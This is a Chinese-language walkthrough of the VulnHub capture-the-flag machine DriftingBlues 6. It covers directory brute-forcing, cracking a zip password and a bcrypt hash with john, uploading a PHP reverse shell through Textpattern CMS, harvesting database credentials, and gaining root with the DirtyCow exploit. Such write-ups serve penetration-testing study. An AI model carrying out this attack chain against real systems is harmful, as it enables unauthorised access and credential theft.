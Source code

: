 # DriftingBlues: 6

2024-5-24 https://www.vulnhub.com/entry/driftingblues-6,672/

difficulty: easy

## IP

192.168.5.30

## Scan

Open Port -> 80

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.22 ((Debian))
|_http-title: driftingblues
| http-robots.txt: 1 disallowed entry
|_/textpattern/textpattern
|_http-server-header: Apache/2.2.22 (Debian)
```

只有一个 80，访问后，源代码有提示：

```
please hack vvmlist.github.io instead
he and their army always hacking us -->
```

使用 gobuster 进行目录扫描，看看有什么目录信息：

```
http://192.168.5.30/robots
http://192.168.5.30/spammer
http://192.168.5.30/db
```

/robots 显示：

```
User-agent: *
Disallow: /textpattern/textpattern

dont forget to add .zip extension to your dir-brute
;)
```

添加 zip 后缀，再次使用 gobuster 扫描：

```
gobuster -t 64 dir -u http://192.168.5.30/ -k -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html,zip -e
```

发现 http://192.168.5.30/spammer.zip ，下载查看，是一个加密的 zip，使用 john + rockyou 看看能不能找到解密密码：

```
zip2john spammer.zip > hash
john hash --wordlist=~/tools/dict/rockyou.txt
```

爆破出解压密码:myspace4

解压后，看看什么信息：mayer:lionheart ，是一个用户名和密码，现在需要找到登陆的地方。没有 ssh，只有 web 服务，robots 中还提示了一个目录 /textpattern/textpattern 这里应该就是登陆页面。

http://192.168.5.30/textpattern/textpattern/ 输入 mayer:lionheart，进入后，是一个 Textpattern CMS (v4.8.3) 管理系统，看看有没有地方能写入 web shell 的。

在 content -> files 中可以上传文件，http://192.168.5.30/textpattern/textpattern/index.php?event=file

然后访问 http://192.168.5.30/textpattern/files/8888.php 就能触发反弹，现在 kali 上监听 8888 端口：

```
curl http://192.168.5.30/textpattern/files/8888.php
```

得到反弹的 shell:

```
www-data@driftingblues:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

/home 中没有特殊用户，看样子需要直接从 www-data 提权到 root。

发现数据库配置文件：

```
www-data@driftingblues:/var/www/textpattern/textpattern$ cat config.php

$txpcfg['db'] = 'textpattern_db';
$txpcfg['user'] = 'drifter';
$txpcfg['pass'] = 'imjustdrifting31';
$txpcfg['host'] = 'localhost';
$txpcfg['table_prefix'] = '';
$txpcfg['txpath'] = '/var/www/textpattern/textpattern';
$txpcfg['dbcharset'] = 'utf8mb4';
// For more customization options, please consult config-dist.php file.
```

登陆到数据库后，得到了一个 user 用户信息：

```
mysql> select * from txp_users;
mayer | $2y$10$vLuVi6USHmoVNQHioadI5OGONW1qXjqKxi4fVYAceKsAo5gzUPmeq
```

看看能不能得到明文密码，john + rockyou 得到：lionheart (mayer)

这几个密码都不是 root 的密码，最后只能尝试有没有内核提权了：

```
uname -a

Linux driftingblues 3.2.0
```

最终使用 dirtycow https://www.exploit-db.com/download/40847 进行提权。

```
firefart@driftingblues:~# cat flag.txt

░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█
░░█░░▌░█░░█░░█░░░█░░█░░█
░░█░░▀▀░░██░░█░░░█░░█░░█
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█

congratulations!
```
